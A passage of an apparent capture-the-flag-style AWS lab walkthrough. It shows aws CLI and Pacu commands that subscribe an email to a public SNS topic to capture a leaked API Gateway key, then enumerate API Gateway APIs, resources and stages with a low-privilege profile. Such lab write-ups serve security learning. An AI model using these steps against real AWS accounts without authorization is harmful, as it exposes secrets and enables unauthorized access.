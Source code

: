 It seems there are no subscribers to it yet. But it does seem to have a policy to send stuff if we look at the `EffectiveDeliveryPolicy` output from the second command. 

So pull up the [documentation](https://docs.aws.amazon.com/cli/latest/reference/sns/subscribe.html) and you'll see we can subscribe by email. So let's give that a shot. I had to ask chatgpt the full command for this once I understood it was, but here you go: 

```bash
aws sns subscribe --topic-arn arn:aws:sns:us-east-1:381491899745:public-topic-cgidth6ftmf8pq --protocol email --region us-east-1 --profile sns_low --notification-endpoint YOUR_EMAIL_HERE
```

I thought we might need to force a receive too, but what do you know. A minute later I get a confirmation email and then a minute later I get another email. And that email had the DEBUG: API GATEWAY KEY!

## An automated approach?

I did this manually but you can also do this by using pacu. If you open pacu using `pacu`, then `import_keys sns_low` there's only 2 commands you need to run to get those emails sent to you. 

1. `run sns__enum --region us-east-1`
2. `data iam` Grab the topic arn from it
3. `run sns__subscribe --topics TOPICARN --email EMAIL`	

# API Gateway

## What is it?

Again, before we go into enumerating this service we should understand what it actually does. According to [this site](https://aws.amazon.com/api-gateway/), it's a service that allows developers to make "secure" APIs at scale. An API is really just an access point for users or applications to interact with something, whether that's a website or a server or something else entirely. But it's only as secure as you make it. So if you have an SNS system that leaks an API key... Well, maybe it's not so secure. 

# Finding the API

I had to ask ChatGPT for some of the commands here. I'll make a note though, don't just blindly copy paste the commands it gives you. It does make assumptions (like it assumed the stage was `prod` and led me on a wild goose chase). Actually take the time to understand the command syntax and what it's giving you before going on.

The first command is to find out what api's are by running `aws apigateway get-rest-apis --profile sns_low`. The key part is the id (first thing in the response). Mine was: `"id": "696zi4tra7"`. 

Now ChatGPT said to grab teh resources using `aws apigateway get-resources --rest-api-id 696zi4tra7 --region us-east-1 --profile sns_low`. Under the items section, you'll notice the path is `/user-data`. Note that down. 

And finally we need to grab the actual stage name using `aws apigateway get-stages --rest-api-id 696zi4tra7 --region us-east-1 --profile sns_low`. Under the stageName you'll see something like `prod-cgidth6ftmf8pq`. And that's all the information we need. 
